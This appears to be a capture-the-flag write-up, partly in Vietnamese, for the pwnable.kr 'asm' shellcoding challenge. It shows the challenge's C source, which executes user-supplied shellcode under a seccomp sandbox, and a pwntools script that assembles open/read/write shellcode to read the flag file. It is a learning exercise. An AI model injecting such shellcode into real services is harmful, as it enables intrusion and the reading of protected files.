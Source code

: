 ```bash
int main(int argc, char* argv[]){

        setvbuf(stdout, 0, _IONBF, 0);
        setvbuf(stdin, 0, _IOLBF, 0);

        printf("Welcome to shellcoding practice challenge.\n");
        printf("In this challenge, you can run your x64 shellcode under SECCOMP sandbox.\n");
        printf("Try to make shellcode that spits flag using open()/read()/write() systemcalls only.\n");
        printf("If this does not challenge you. you should play 'asg' challenge :)\n");

        char* sh = (char*)mmap(0x41414000, 0x1000, 7, MAP_ANONYMOUS | MAP_FIXED | MAP_PRIVATE, 0, 0);
        memset(sh, 0x90, 0x1000);
        memcpy(sh, stub, strlen(stub));

        int offset = sizeof(stub);
        printf("give me your x64 shellcode: ");
        read(0, sh+offset, 1000);

        alarm(10);
        chroot("/home/asm_pwn");        // you are in chroot jail. so you can't use symlink in /tmp
        sandbox();
        ((void (*)(void))sh)();
        return 0;
}

asm@pwnable:~$
```

Ở bài này, chương trình cho phép truyền vào shellcode để thực thi. Tuy nhiên, chương trình chỉ cho phép dùng các syscall: **open**, **read** và **write**

Dùng shellcraft trong pwntools để tạo một shellcode đọc file với 3 syscalls này

```python
from pwn import *


context(arch='amd64', os='linux')

file_name = 'this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong'
length = 50

shellcode = asm(
	shellcraft.open(file_name) +
	shellcraft.read('rax', 'rsp', 100) +
	shellcraft.write(1, 'rsp', 100) +
	shellcraft.exit(0))

info(f"Shellcode: {disasm(shellcode)}")
write("shellcode", shellcode)
```
